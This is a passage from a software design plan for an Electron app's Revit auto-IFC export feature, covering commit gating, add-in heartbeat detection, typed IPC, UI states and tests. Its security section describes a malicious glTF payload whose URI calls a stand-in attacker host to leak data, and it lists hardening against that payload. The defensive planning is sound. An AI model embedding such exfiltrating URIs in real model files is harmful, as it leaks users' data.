   - If basename matches `expectedIfcBasename` and `pendingRvtMtime` is set → emit `commit-ready` (no `.rvt` event — that already fired immediately), `clearTimeout`, emit `revit-addin-status-change → active`. Reset state.
   - If late (timer already expired) → emit `ifc-arrived-late` (renamed for naming consistency per pattern review §1) with payload `{ ifcPath, basename, rvtSha256: pendingRvtSha256, arrivedAfterMs }`. Renderer matches `rvtSha256` against the most recent commit's `.rvt` hash to identify the right commit for regeneration; if no commit matches, surface a toast: "Auto-preview arrived too late and was superseded."
4. **On timer expiry**: emit `commit-ready` (commit proceeds with `derivativeStatus: 'stale'` — see Phase 4 commit handler), emit `revit-addin-status-change → active` (chip returns to active; staleness lives on the commit row, not the chip).

##### Crash-recovery: persisted gate state

`pendingRvtEvent` is in-memory only; if 0studio crashes mid-wait the user's edit becomes invisible (file watcher's `ignoreInitial: true` silently discards the disk state on next launch). **Persist to `%AppData%\0studio\pending-gate-state.json`** on each transition. On app start, replay:
- Read the file. If `pendingRvtMtime` matches the current `.rvt` mtime on disk AND a same-basename `.ifc` is now present with mtime > pendingRvtMtime → emit `commit-ready` immediately on project open.
- If only the `.rvt` is present and is newer than the last commit's source mtime → emit `commit-ready` AND a "regenerate preview" affordance.
- Otherwise discard the pending state cleanly.

##### `RevitStatusService` — new service in `electron/services/revit-status-service.ts`

Polls `%AppData%\0studio\revit-heartbeat-2024.json` and `...-2025.json`. Cadence: **5 s for first 30 s** after app start (fast `unavailable→active` flip), then **30 s steady state** (cuts filesystem traffic 6× without affecting UX). Stat-based polling, NOT `fs.watch` (best-practices research §4: `fs.watch` on `%AppData%` SMB redirects is unreliable; stat is rock-solid and trivial cost).

Considers add-in `active` for year Y if **all three**:
- Heartbeat mtime < 60 s old.
- `tasklist /FI "PID eq <heartbeat.pid>"` confirms the process exists with image name `Revit.exe` (heartbeat-spoof mitigation per security §3).
- `bootTime` from heartbeat is consistent with the process's actual boot time (orphan-heartbeat detection).

Manifest detection is a one-time check on Electron app start, looking at `%AppData%\Autodesk\Revit\Addins\2024\0studio.addin` and `...\2025\...`. If neither present → `unavailable: 'no-manifest'` regardless of heartbeat. Three sub-states for `unavailable` (security review §5 + architecture review §6):
- `unavailable: 'no-manifest'` — installer never wrote the addin (or user uninstalled it). Diagnostic modal should offer "Redeploy add-in" guidance.
- `unavailable: 'manifest-but-no-heartbeat'` — manifest present but heartbeat stale. Most likely the user clicked "Do Not Load" in Revit's trust dialog. Diagnostic modal should offer "Open Revit → Add-Ins → Add-In Manager → enable 0studio."
- `unavailable: 'non-windows'` / `unavailable: 'unsupported-version'` — terminal states; manual export only.

##### Path resolution: `%AppData%\0studio\` vs `app.getPath('userData')`

The C# add-in cannot import Electron, so it writes to a hard-coded `%AppData%\0studio\` path. Pattern review §7 flagged this must be verified against electron-builder's resolved `productName` (which determines `app.getPath('userData')` — typically `%AppData%\<productName>\`). `package.json` shows `"productName"` may differ from package `"name": "rhino-studio"`. **Action item for Phase 3 implementation: add a startup assertion in `RevitStatusService` that reads `app.getPath('userData')` and asserts it equals `path.join(app.getPath('appData'), '0studio')`. If not, log a hard error and refuse to start the auto-preview pipeline — config drift would silently break detection.**

##### IPC additions (following the established pattern at `electron/main.ts:408` + `electron/preload.ts:24` + `src/lib/desktop-api.ts:78–81`)

| Channel | Direction | Purpose |
|---|---|---|
| `get-revit-addin-status` | renderer → main | one-shot status read; returns `RevitAddinStatusPayload` from the shared types module |
| `revit-addin-status-changed` | main → renderer (push) | emitted by `RevitStatusService` on state transitions |
| `commit-ready` | main → renderer (push) | gated companion to `file-changed`; renderer's `VersionControlContext.hasUnsavedChanges` listens to this, NOT to `file-changed` |
| `ifc-arrived-late` | main → renderer (push) | emitted when an `.ifc` arrives after gate timeout, with the `.rvt` content hash for commit matching |

The `redeploy-revit-addin` IPC stub in the previous draft is **cut** (simplicity review §3) — ship the channel when the diagnostic modal needs it.

##### Type-safe IPC contract (kill `as any` casts)

Per TypeScript review §3: existing `desktop-api.ts` riddles `as any` casts (lines 71, 80, 106, 112, 117, 122, 127, 133, 137, 143, 149, 154, 159, 164, 169, 175, 180, 185, 190, 196). Phase 3 introduces a clean replacement pattern instead of adding to that pile:

- New file `electron/shared/revit-ipc.ts` defines `RevitAddinStatusPayload`, `LateIfcArrivalPayload`, `CommitReadyPayload`, and `RevitElectronAPI` interface.
- New file `electron/shared/revit-heartbeat.ts` defines `RevitHeartbeat` + `parseHeartbeat(raw: unknown): RevitHeartbeat | null`.
- `Window.electronAPI` augmented via declaration merging: `interface Window { electronAPI: ExistingApi & RevitElectronAPI }` — intersection type, no cast.
- Channel name strings exported as `as const` map (`IPC_CHANNELS.REVIT_STATUS_CHANGED = 'revit-addin-status-changed'`) imported by main and preload — typo'd channel names fail at compile time.

This pattern is also a model for future cleanup of the existing `as any` casts (out of scope for this plan).

##### Status type encoding (discriminated union with state-specific data)

```ts
export type RevitAddinState =
  | { kind: 'unavailable'; reason: 'non-windows' | 'no-manifest' | 'manifest-but-no-heartbeat' | 'unsupported-version' | 'rvt-too-large' }
  | { kind: 'active'; detectedYears: ReadonlyArray<2024 | 2025>; heartbeatAgeMs: number }
  | { kind: 'in_progress'; rvtPath: string; startedAt: number; timeoutAt: number };
```

`unknown` (mount-transient) and `stale` (commit-row toast) are not chip states. Transitions encoded as a typed reducer with exhaustive `switch (state.kind)` + `default: const _: never = state` for compile-time exhaustiveness.

##### Renderer integration
- `src/contexts/VersionControlContext.tsx` (file-change handler) — **switch from `file-changed` to `commit-ready`** for `hasUnsavedChanges`. Keeps the surface change minimal but corrects the gating story.
- `src/contexts/ModelContext.tsx:280–291` — keeps subscribing to `file-changed` (immediate) so `reloadModelFromDisk` runs without delay.
- New `RevitAddinContext` (renamed from `RevitPreviewContext` per architecture review §3 — "preview" overloads with `ModelContext`'s geometry preview) parallel to `CloudSyncContext`. Owns: `addinState` (discriminated-union state), `lastLateArrival` (commit-id pending regenerate, matched by `rvtSha256`).

##### Files added / changed
- `electron/services/revit-sidecar-gate.ts` (new) — class-based, mirrors `FileWatcherService` pattern; constructor injects `clearTimeout`/`setTimeout`/`Date.now` for testability (no fake-timers needed).
- `electron/services/revit-status-service.ts` (new) — class-based; uses `electron-log/main` matching `oauth-service.ts:4` precedent.
- `electron/shared/revit-ipc.ts` (new) — shared types + channel constants.
- `electron/shared/revit-heartbeat.ts` (new) — `RevitHeartbeat` type + `parseHeartbeat`.
- `electron/main.ts` — split watcher callback to emit `file-changed` immediately + delegate `.rvt` to `revitSidecarGate.onRvtChange()` for `commit-ready` gating; instantiate `RevitStatusService`; register IPC handlers (~70 LOC additions).
- `electron/preload.ts` — expose new IPC channels via the typed contract (~20 LOC).
- `src/lib/desktop-api.ts` — wrap new channels using the typed `Window['electronAPI']` augmentation (no casts) (~30 LOC).
- `src/contexts/RevitAddinContext.tsx` (new).
- `src/App.tsx` — wrap with `RevitAddinProvider` (one line at the documented context nesting).

##### Acceptance
- `node:test` test in `electron/services/revit-sidecar-gate.test.ts` (matches `electron/lib/log-redact.test.ts` pattern + `npm run test:electron` flow):
  - `.rvt` event with active add-in: emits `file-changed` immediately, holds `commit-ready` until matching `.ifc` arrives, both emit in correct order.
  - 180 s timeout fires `stale` toast and emits `commit-ready` without a paired `.ifc`.
  - Late `.ifc` after timeout fires `ifc-arrived-late` carrying `rvtSha256`.
  - **Rapid `.rvt` events coalesce**: 2 `.rvt` events 5 s apart → 2 `file-changed` emits (immediate), but only 1 `commit-ready` after the matching `.ifc`, no leaked timers (assert `setTimeout`/`clearTimeout` call counts).
  - Crash recovery: persist gate state, simulate restart, verify `commit-ready` emitted on project open if `.ifc` is now present.
  - Gate `.rvt` deleted mid-wait: cancel gate, no spurious emissions.
- `node:test` in `revit-status-service.test.ts`: heartbeat mtime boundary (59 s ago → active, 61 s ago → unavailable); spoofed heartbeat with non-existent PID → `unavailable`; orphan heartbeat with mismatched bootTime → `unavailable`.
- Integration: with a fake heartbeat file and synthetic chokidar events, renderer sees the right sequence of state changes.

---

#### Phase 4 — UX surfaces (Renderer) + commit-time integrity

##### `RevitAddinStatusChip` (3 states, simplified per YAGNI review)
New component in `src/components/RevitAddinStatusChip.tsx`. Mounted in `src/components/VersionControl.tsx` immediately above the existing Cloud Sync Status block at lines 824–844 (matching its `text-xs text-muted-foreground` styling). Visible only when `currentModel` ends in `.rvt`.

Three chip states only:
- `unavailable`: small icon + reason-specific copy linking to the diagnostic flow:
  - `'no-manifest'` → "Auto-preview off — set up Revit helper"
  - `'manifest-but-no-heartbeat'` → "Revit helper not loaded — check Add-In Manager" (covers Revit "Do Not Load" choice)
  - `'non-windows'` → "Auto-preview requires Windows + Revit 2024/2025"
  - `'unsupported-version'` → "Revit version not supported (2024/2025 required)"
  - `'rvt-too-large'` → "Model too large for auto-preview ({size} MB)"
- `active`: muted check + "Auto-preview active".
- `in_progress`: spinner + "Generating preview…" (with optional progress hint based on `timeoutAt - Date.now()`).

`unknown` (mount-transient, < 5 s) renders nothing. Post-timeout `stale` is a one-shot toast plus a "Regenerate preview" button on the affected commit row — not a chip mode.

##### Inline `RevitSetupBanner` (no shared primitive)
Per simplicity review §2: build inline in `VersionControl.tsx`, not as a future-reusable primitive. ~30 lines of conditional copy + dismiss button. Triggers when `addinState.kind === 'unavailable'` AND `addinState.reason !== 'non-windows'` AND `localStorage['0studio.revit-banner-dismissed-v1']` not set. Persists dismissal per-machine (localStorage, Electron user-data scope). When the banner copy materially changes, bump the suffix to `-v2` to re-show.

##### **NEW: `gate.isWaiting()` check in `commitModelChanges` (data integrity §6)**

Without this, the user can click "Save Version" while IFC export is in-flight; `commitModelChanges` reads the just-saved `.rvt` (new) plus the still-on-disk `.ifc` (OLD, pre-rename). The commit gets `.rvt-new` + `.glb` derived from `.ifc-old`, with `derivativeStatus: 'present'` flagged falsely.

Fix: query the gate before generating the derivative.
- If `revitSidecarGate.isWaiting()` is true for the current project, mark `derivativeStatus: 'stale'` instead of `'present'`. The eventual `commit-ready` (or `ifc-arrived-late`) event triggers a regenerate against the now-fresh `.ifc`.
- Surface a chip transition + non-blocking toast: "Auto-preview still generating — preview will refresh in a moment."
- Expose `revitSidecarGate.isWaiting()` via a synchronous IPC call (`get-revit-gate-state`) — cheap, no async needed.

##### "Regenerate preview" affordance (corrected: matches by content hash)

On any commit row whose `derivativeStatus !== 'present'`, show a small "↻" button. On click:
1. Read the commit's `.rvt` from `0studio_<name>_rvt/commits/`.
2. **Match the appropriate `.ifc`**: if a recent `ifc-arrived-late` carries `rvtSha256` matching this commit's `.rvt`, use that `.ifc`. Otherwise fall back to the latest matching-basename `.ifc` in the project root, but verify its mtime exceeds the commit's `.rvt` mtime (else surface "Open the file in Revit and save to regenerate"). Without hash matching, a late `.ifc` could overwrite a newer commit's derivative (data-integrity §5).
3. Run `web-ifc → sceneToGlb → saveDerivativeFile` for that specific commit.
4. Update `derivativeStatus: 'present'` in tree.json.

##### **NEW: GLTFLoader hardening for hostile `.glb` payloads (security §8)**

The dual-artifact model means macOS / Mac consumers render `.glb` files produced by other team members on Windows. A compromised or malicious producer could embed a glTF with `"uri": "https://attacker.com/leak?..."` — Three.js's default `GLTFLoader` will fetch it. Required hardening:

1. **`URLModifier` on the `LoadingManager`** that rejects any URI not starting with `blob:` or `data:`. Throw on external resolves.
2. **Extension allowlist** — strip glTF extensions outside `KHR_materials_*`, `KHR_texture_transform`, `KHR_draco_mesh_compression`, before parse.
3. **Buffer size cap** at 200 MB declared (DoS via 100 GB declared buffer).
4. **CSP audit**: confirm `connect-src` in the renderer's CSP doesn't include `*` — defense in depth.

These apply wherever a `.glb` is loaded today (`ModelContext.tsx` derivative load path) and going forward. Add a fixture-based `node:test` that loads a `.glb` with an external URI and verifies the URLModifier rejects it.

##### **NEW: Draco mesh compression in `sceneToGlb` (performance §5)**

Tessellated IFC geometry produces vertex-heavy `.glb` files: 50 MB `.rvt` → 5–25 MB `.glb`; 500 MB `.rvt` → 80–200 MB `.glb`. With 50 commits/day × 25 MB × 10 users = 12.5 GB/day cloud egress. Enable Draco compression in `sceneToGlb` (`src/lib/gltf-service.ts:73`):

```ts
const exporter = new GLTFExporter();
exporter.setDRACOLoader(dracoLoader);   // reuses the bundled draco_decoder.wasm
const buffer = await exporter.parseAsync(scene, { binary: true, dracoOptions: { compressionLevel: 7 } });
```

Typical reduction: 10–20× on geometry. Also add a size-budget log warning if `.glb` > 50 MB (fail-open but observable).

##### First-overwrite notice — DEFERRED to v2 (simplicity review §5)

The chip already communicates "0studio is managing this." A toast that fires once per project tells users what they can already see. Cut for v1: no sentinel file, no hash baseline, no delta heuristic. Saves ~80 LOC. Revisit if support tickets demand it.

##### Files added / changed
- `src/components/RevitAddinStatusChip.tsx` (new) — 3-state chip with reason-specific copy.
- `src/components/VersionControl.tsx` — mount chip + inline banner near lines 790–844; add "↻" regenerate button on commit rows; wire `gate.isWaiting()` into the Save Version flow.
- `src/contexts/RevitAddinContext.tsx` — exposes hooks consumed by the chip / banner / regenerate flow.
- `src/lib/gltf-service.ts` — add Draco compression to `sceneToGlb`.
- `src/contexts/ModelContext.tsx` — add `URLModifier` + extension allowlist + buffer cap on the GLTFLoader used for derivative loads.

##### Acceptance
- Chip renders correctly in 3 chip states + each `unavailable` reason variant; transitions visible during a save cycle.
- Inline banner appears once per machine on first `.rvt` open with `unavailable` state, dismissible, persists across app restarts.
- Regenerate "↻" button on a stale commit produces a `.glb` and updates tree.json. Test: mismatched `rvtSha256` in `ifc-arrived-late` does NOT regenerate the wrong commit.
- `gate.isWaiting()` check: synthetic test where Save Version is clicked while gate is `in_progress` produces a commit with `derivativeStatus: 'stale'`, NOT `'present'`.
- GLTFLoader hardening: fixture `.glb` with external URI is rejected at parse time; fixture with disallowed extension is stripped before parse; fixture with declared buffer > 200 MB is rejected.
- Draco compression: `.glb` size reduction verified on a 10 k-triangle reference scene (≥ 5× smaller than uncompressed).

---

#### Phase 5 — Edge cases, diagnostics, polish

##### Save-while-app-closed (SpecFlow Flow B)
**Decision: silent-ignore for v1.** The current code path already silently ignores `.rvt` changes that occur while 0studio is closed (`ignoreInitial: true` in chokidar config). Auto-IFC doesn't change this. When the user opens the project, `detectIfcSidecar` finds the latest `.ifc` and the next save commits normally. Documented as a known limitation; if support requests "see uncommitted changes from offline saves," revisit in a future plan with mtime-vs-last-commit comparison.

##### Cross-platform team sync (SpecFlow Flow G)
With Phase 0 shipped, this works automatically: Windows producer commits `.rvt` + `.glb`; cloud sync pushes both; Mac consumer pulls `.glb` and renders. No additional code in this plan.

##### Concurrent Revit + Rhino projects (SpecFlow Flow L)
No code changes needed; existing storage folder collision guard (`migrateLegacyStorageFolder` at `electron/main.ts:567`) and basename-scoped sidecar detection handle this. Add an integration test to confirm.

##### Diagnostics — simplified to "Open log folder" (simplicity review §6)

For v1, no log-tail reader, no redacted bundle, no diagnostics modal. The chip's `unavailable` state hosts a single button: **"Open log folder"** → calls `shell.openPath(path.join(app.getPath('appData'), '0studio'))`. Users see `revit-addin-log-2024.txt`, `revit-addin-log-2025.txt`, `revit-heartbeat-*.json`, and `pending-gate-state.json` in their native file explorer; can attach files to support tickets manually.

If support ticket volume justifies it, build the redacted bundle in v2 with a `RevitDiagnostics.tsx` modal. Saves ~120 LOC for v1.

**Log file path-traversal hardening** (security §4): all log file reads in main use a hard-coded path `path.join(app.getPath('appData'), '0studio', \`revit-addin-log-${year}.txt\`)` with `year` constrained to a numeric whitelist `[2024, 2025]`; never accept `year` from renderer. `lstat` reject on symlinks before any read (mirrors `ifc-sidecar-service.ts:62` pattern). One-line precaution; same-user attacker is unlikely but the cost is zero.

##### Telemetry (optional, off by default)
Wire a single counter incrementing per successful auto-export (anonymized, opt-in). Useful to confirm adoption later. Not required for v1; flag for Phase 6 / future work.

##### Files added / changed
- `src/components/VersionControl.tsx` — add "Open log folder" button in chip's `unavailable` variant.
- `electron/main.ts` — IPC handler `open-revit-log-folder` calling `shell.openPath`.

##### Acceptance
- Clicking "Open log folder" opens the user's native file explorer at `%AppData%\0studio\`.
- Log file IPC handler refuses non-whitelisted year values (compile-time constraint via discriminated union; runtime assertion as belt-and-suspenders).

---

## Alternative Approaches Considered

These were already evaluated in the brainstorm (`docs/brainstorms/2026-05-03-revit-auto-ifc-export-requirements.md`) and rejected. Recapped here for the planning record:

1. **Headless Revit batch export** (spawn `Revit.exe` from 0studio per save). Rejected: Revit launch is 30 s–several minutes, locks the `.rvt` while exporting, and competes with the user's open Revit session.
2. **Cloud conversion via Autodesk Platform Services**. Rejected: paid per-conversion, 5–15 min latency on large files, hard Autodesk dependency. Was reconsidered in the brainstorm given the missing-preview pain but ultimately not chosen.
3. **Dynamo Player one-click export**. Rejected: still a manual click per change; only marginal improvement over today's File → Export → IFC.
4. **Bidirectional IPC between Revit and 0studio** (named pipes / WebSocket / signal files). Rejected: more moving parts than a "dumb file write" pattern; the heartbeat + filesystem boundary delivers the same coordination with less surface area.

The brainstorm also evaluated these dimensions and rejected the alternatives in favor of the chosen approach: trigger granularity (every save vs idle-debounced), output location (same folder vs hidden cache vs in-memory), collision policy (always overwrite vs side-by-side filename vs per-project opt-in). See origin doc for rationale.

## System-Wide Impact

### Interaction Graph

A `.rvt` save, traced two levels deep:

1. **Revit fires `DocumentSaved`** → add-in's handler returns in &lt;100 ms after raising an `ExternalEvent` (the export does NOT run synchronously inside the save handler — see Phase 1 below; framework research confirmed synchronous export blocks Revit's UI for 10–60 s, unacceptable).
2. **On next `Idling` cycle, the `IExternalEventHandler.Execute` runs the IFC export transaction** → `Document.Export` writes IFC entities → temp file lands → `File.Replace` → final `.ifc` exists. Snapshot the document path + version inside the original handler so we abort if the doc changed between save and execute.
3. **Add-in's heartbeat timer is independent**, refreshing `%AppData%\0studio\revit-heartbeat-<year>.json` every 30 s on a background `System.Threading.Timer` (the only legal off-API-thread work in the add-in — pure file write, no Revit calls).
4. **chokidar's `awaitWriteFinish`** debounces the `.rvt` and `.ifc` change events with a 1500 ms stability threshold (`electron/services/file-watcher.ts:42–52`).
5. **`FileWatcherService.watch` callback** (`:55–59`) fires for both files; same callback, distinguished by `filename` arg.
6. **Main process callback** at `electron/main.ts:621–635` previously called `safeSend('file-changed', ...)` directly. With Phase 3, it now calls `revitSidecarGate.onFileChange(...)` first, which may defer the emit.
7. **Gate emits `file-changed`** to renderer (possibly batched with the sidecar event).
8. **`ModelContext`** subscribes (`:280–291`) → calls `reloadModelFromDisk` → re-reads sidecar, reloads geometry.
9. **`VersionControlContext`** subscribes (`:657–673`) → sets `hasUnsavedChanges = true`.
10. **User clicks "Save Version"** → `commitModelChanges` (`:675–889`) → with Phase 0, also generates and saves `.glb`.
11. **`CloudSyncContext`** push flow uploads `.rvt` + `.glb` to S3.

Possible failure cascades and where they're caught:
- IFC export throws → caught in add-in handler → logged to file → no `.ifc` written → gate times out → status chip → `stale` → commit proceeds with whatever derivative state existed previously.
- Add-in fails to start (missing dependency, bad assembly) → no heartbeat → status `unavailable` → behavior identical to "Revit not installed."
- Heartbeat file write fails (disk full, permission) → status flickers to `unavailable` periodically → cosmetic; does not block.
- chokidar misses an event (rare, Windows ReadDirectoryChangesW edge case) → `.rvt` event arrives late or not at all → user sees a missing commit; mitigated by `awaitWriteFinish` and the existing EBUSY retry at `electron/main.ts:695`.

### Error & Failure Propagation

| Layer | Error class | Handler | Recovery |
|---|---|---|---|
| Add-in IFC export | `Autodesk.Revit.Exceptions.*`, `IOException` | top-level `try/catch` in handler | log, no `.ifc` written, gate times out |
| Add-in heartbeat | `IOException` (rare) | swallowed in heartbeat timer | next tick retries |
| chokidar | platform IO errors | swallowed at `file-watcher.ts:60–68` (existing) | n/a |
| Gate timer | n/a | timer expires → emits `stale` | commit proceeds, regenerate available |
| `commitModelChanges` glTF gen failure | runtime errors in `sceneToGlb` | try/catch (Phase 0); set `derivativeStatus: 'missing'` | commit succeeds without derivative; regenerate later |
| Renderer IPC drop | unhandled promise rejection | existing global handler | toast + log; user can retry |

No silent failure swallowing in new code paths; every catch logs context.

### State Lifecycle Risks

Every persisted state and its recovery story:

| Persisted state | Created by | Cleanup on | Risk |
|---|---|---|---|
| `0studio-revit.dll` in Revit Addins | Phase 2 installer | Phase 2 uninstaller (`Delete /REBOOTOK`) | Survives bad uninstall; user could manually remove. Not user data. |
| `0studio.addin` in Revit Addins | Phase 2 installer | Phase 2 uninstaller | Same as above. |
| `revit-heartbeat-<year>.json` in `%AppData%\0studio\` | add-in `OnStartup` timer | not cleaned up explicitly; mtime-based status detection makes stale heartbeats benign | Stale file from old install survives forever; harmless because mtime gates "active." Optional: clean up on add-in `OnShutdown`. |
| `revit-addin-log-<year>.txt` | add-in error handler | rolled at 1 MB | Disk usage bounded. |
| `0studio_<name>_rvt/.0studio-managed-ifc` sentinel | First-overwrite toast logic | never (intentional — survives reopens) | Re-clobbers user-managed `.ifc` only once; sentinel suppresses subsequent notices. Acceptable. |
| `localStorage["0studio.revit-banner-dismissed-v1"]` | banner dismiss | cleared on user-data wipe | Per-Electron-user-data scope; correct. |
| `derivativeStatus` / `derivativePath` in `tree.json` | Phase 0 commit flow | tree.json rewrites | Mutated atomically with rest of tree. No partial-update risk. |
| `commit-{id}.glb` in `0studio_<name>_<fmt>/commits/` | Phase 0 `saveDerivativeFile` | normal commit deletion | Orphan possible if commit is deleted but `.glb` write succeeded after — same risk as today for `.rvt`. Acceptable. |

No new orphan-row or duplicate-record risks. Every new persistence is either mtime-gated (heartbeat), atomic (sentinel), or on the existing tree.json transactional path.

### API Surface Parity

| Surface | Today | After this plan |
|---|---|---|
| `electron/preload.ts` `electronAPI` | exposes `getIfcSidecarPath`, `redetectIfcSidecar`, etc. | adds `getRevitAddinStatus`, `onRevitAddinStatusChanged`, `onLateIfcArrival`, `redeployRevitAddin` |
| `src/lib/desktop-api.ts` | matching wrappers | matching wrappers for new IPC |
| `tree.json` schema | already supports `derivativeStatus`, `derivativePath` (Phase 1 of dual-artifact shipped) | unchanged; Phase 0 just populates fields that today are unset |
| `0studio_<name>_<fmt>/` storage layout | per-format folders, originals + (planned) derivatives | unchanged; Phase 0 fills the derivative slot |
| Cloud sync schema | already carries derivative fields | unchanged |
| Manual sidecar IPC (`redetect-ifc-sidecar`) | works for hand-exported `.ifc` | **must remain unchanged**; Phase 3 gate is conditional on `addinState !== 'unavailable'` so manual-sidecar users hit the same code path as today |

Surfaces that share code paths and need the same change: `commitModelChanges` is the single commit funnel — Phase 0 changes it once, all formats benefit. No second copy exists.

### Integration Test Scenarios

Five scenarios that unit tests with mocks would never catch:

1. **Save → wait → commit on Windows with Revit open.** Save a real `.rvt` in Revit 2025, observe the `.ifc` arrives, verify the commit gate held the `file-changed` event, verify the resulting commit has `derivativeStatus: 'present'` and a non-empty `.glb` file.
2. **Save → timeout → commit on a 500 MB `.rvt`.** Force the IFC export to take > 90 s (large model). Verify the gate times out, the `.rvt` event flushes alone, the commit shows `derivativeStatus: 'missing'`, the late `.ifc` triggers the regenerate-available state.
3. **Cross-platform pull on macOS.** Producer (Windows + Revit 2024) commits a `.rvt`. Consumer (macOS) pulls. Verify the consumer sees the `.glb` derivative and the viewer renders without invoking web-ifc locally.
4. **Add-in not installed → manual sidecar workflow.** Uninstall the add-in (or run on a Windows VM without it). Verify status chip shows `unavailable`, banner appears once. Manually export `.ifc` from Revit. Verify `redetect-ifc-sidecar` works as today and the chip stays `unavailable` throughout.
5. **First-overwrite of pre-existing user `.ifc`.** Pre-seed a project with `building.rvt` + a hand-exported `building.ifc` of different content. Install the add-in, save in Revit. Verify the first-overwrite toast fires once, the sentinel file is created, subsequent saves do not re-fire the toast.

## Acceptance Criteria

### Functional Requirements

- [ ] **Phase 0:** Every commit (any format) produces both an original artifact and a `.glb` derivative locally; `tree.json` reflects `derivativeStatus: 'present'`.
- [ ] **R1, R2:** A Windows user installing 0studio with Revit 2024 and/or Revit 2025 present has the add-in DLL + manifest deployed to the matching Revit Addins folder(s).
- [ ] **R3:** Revit 2022 and 2023 are not targeted; users on those versions see the status chip `unavailable` with the "unsupported version" copy and continue to use manual export.
- [ ] **R4:** The add-in writes `building.ifc` next to `building.rvt` with the same basename. Existing `ifc-sidecar-service.ts` detection finds it without modification.
- [ ] **R5:** On the first save where the add-in would overwrite a pre-existing user-maintained `.ifc`, a one-time per-project toast fires; subsequent overwrites are silent.
- [ ] **R6:** When `addinState === 'active'` and the file watcher sees a `.rvt` change, the file-changed emission is held until the matching `.ifc` lands or 90 s elapses. On timeout, the commit proceeds with current behavior; the chip transitions to `stale`.
- [ ] **R7:** The add-in writes `.ifc.tmp-<guid>` then atomically renames; chokidar never sees a half-written file.
- [ ] **R8:** A status chip in the commit panel reflects `unavailable` / `in_progress` / `active` (3 states; `unknown` is hidden mount-transient state). Post-timeout `stale` surfaces as a toast + commit-row "Regenerate preview" button, not a chip mode. A first-run dismissible banner appears at most once per machine when state is `unavailable` on a `.rvt` project.
- [ ] **R9:** macOS users, Windows-without-Revit users, and Windows-with-unsupported-Revit users see no regression: existing `redetect-ifc-sidecar` flow continues to work.

### Non-Functional Requirements

- [ ] **Performance:** auto-IFC export for a representative model (~50 MB `.rvt`) completes within 30 s; commit gate timeout (90 s default) covers the 95th percentile of model sizes used by 0studio's known users.
- [ ] **Security:** add-in DLL is Authenticode-signed with the existing Windows code-signing cert; Revit's "Always Load" trust dialog identifies the verified publisher.
- [ ] **Reliability:** add-in errors are logged but never propagate to Revit (no CER dialogs, no Revit crashes attributable to the add-in).
- [ ] **Privacy:** add-in writes only locally (heartbeat, log, IFC); no network calls, no telemetry beyond the optional opt-in counter.
- [ ] **Compatibility:** the gate is purely additive in the file-watcher pipeline — when `unavailable`, behavior is byte-for-byte identical to today.

### Quality Gates

- [ ] Phase 0 changes covered by at least one `node:test` test exercising commit flow with derivative output (matches existing test infrastructure — see `electron/lib/log-redact.test.ts` and `npm run test:electron`; no Vitest in this codebase).
- [ ] `RevitSidecarGate` unit tests cover all state transitions (deferred `commit-ready` emit, immediate `file-changed` emit, timeout, late arrival, rapid-save coalescing without timer leak, crash recovery via persisted gate state).
- [ ] `RevitStatusService` unit tests cover heartbeat boundary conditions, PID-spoof detection, orphan-heartbeat detection (mismatched bootTime).
- [ ] **Security: GLTFLoader hardening fixture tests** — `.glb` with external URI rejected; disallowed extension stripped; > 200 MB declared buffer rejected.
- [ ] **Security: code-signing build verifies RFC 3161 timestamp via `signtool verify /pa /tw`**; build fails if absent.
- [ ] **Security: log-file IPC handler rejects non-whitelisted year values; lstat rejects symlinks before read.**
- [ ] **Integrity: `commitModelChanges` test** — clicking Save Version while gate is `in_progress` produces a commit with `derivativeStatus: 'stale'`, NOT `'present'`.
- [ ] **Integrity: late `.ifc` regenerate test** — `ifc-arrived-late` with mismatched `rvtSha256` does NOT regenerate any commit's derivative.
- [ ] **Integrity: Phase 0 ordering test** — simulate crash between `.glb` write and tree.json write, verify startup reconciliation demotes `'present'` to `'missing'`.
- [ ] **Heartbeat schema parser test** — fixture with `schemaVersion !== 1` rejected (forward-compat for older 0studio + newer add-in).
- [ ] **Heartbeat schema drift test** — TS parser loads a known-good JSON fixture committed by the .NET test suite; CI fails if .NET drifts.
- [ ] Manual integration test checklist runs on a Windows VM with Revit 2024 + 2025 before each release.
- [ ] CODE_SIGNING_GUIDE.md updated with the dual-signing flow (.NET DLL + Electron app) including the timestamping requirement.
- [ ] BUILD_GUIDE.md updated with the .NET build prerequisite (Visual Studio Build Tools or `dotnet` SDK with the right workloads).

## Success Metrics

| Metric | Target | Measurement |
|---|---|---|
| % of `.rvt` commits with `derivativeStatus: 'present'` | > 90 % within 60 days post-release | Telemetry counter on commit creation |
| Auto-export adoption rate | > 75 % of Windows installs with Revit detected actively use auto-export | `revit-addin-status-changed` events: ratio of `active` to `unavailable` |
| Commit-gate timeout fallback rate | < 5 % | Counter on `stale` state transitions |
| User-facing IFC management complaints | drop to near zero in support tickets | Manual review of issue tracker tagged `revit` |
| Cross-platform team usability | macOS consumers see fresh previews on Windows-producer commits within minutes (not days) | Anecdotal user feedback + cloud sync logs |

## Dependencies & Prerequisites

**Hard prerequisites (block this work):**
- **Phase 0 (dual-artifact Phase 2 wiring)** must ship before any user-visible auto-IFC value appears. Included in this plan as the first phase.
- A Windows build pipeline that can produce signed .NET DLLs (Visual Studio Build Tools or `dotnet` SDK on a Windows runner). The current build scripts (`scripts/build-windows-exe.sh`) orchestrate GitHub Actions on `windows-latest`; need to extend this with a `dotnet build` step before the electron-builder step.
- Authenticode code-signing cert valid for both Electron and .NET binaries (verify the cert in `docs/CODE_SIGNING_GUIDE.md` is suitable).
- An Autodesk-registered VendorId (4-char). Recommended: register `ZSTU` via the ADN portal. Without registration, Revit loads the add-in but warns; acceptable for an early release if registration is in flight.

**Soft prerequisites (don't block, but inform):**
- Revit 2024 + Revit 2025 test machines or VMs for manual integration testing.
- Sample `.rvt` files of varying sizes (small office, mid-size building, large urban model) to validate IFC export latency assumptions.

**Assumptions:**
- web-ifc handles IFC4 Reference View tessellated geometry well (the dual-artifact brainstorm flagged this as a deferred research question; the IFC4RV preset is the recommended path; validate during Phase 1 with real Revit-exported files).
- Revit 2024 + 2025 distribution covers the bulk of 0studio's Windows users (assumed; worth a quick survey or telemetry pass before release).
- Per-user install (`%AppData%`) is the right default; no enterprise users currently demand machine-wide install.

## Risk Analysis & Mitigation

| Risk | Severity | Likelihood | Mitigation |
|---|---|---|---|
| Revit API breaking changes between 2024 and 2025 break the add-in mid-development | High | Medium | Multi-target csproj catches API drift at build time; per-year DLLs isolate breakage; integration tests on both years before release. |
| `.NET 4.8` (Revit 2024) and `.NET 8` (Revit 2025) divergence creates code maintenance pain | Medium | High | Keep year-specific code minimal (mostly references); shared logic in a netstandard helper assembly if needed. |
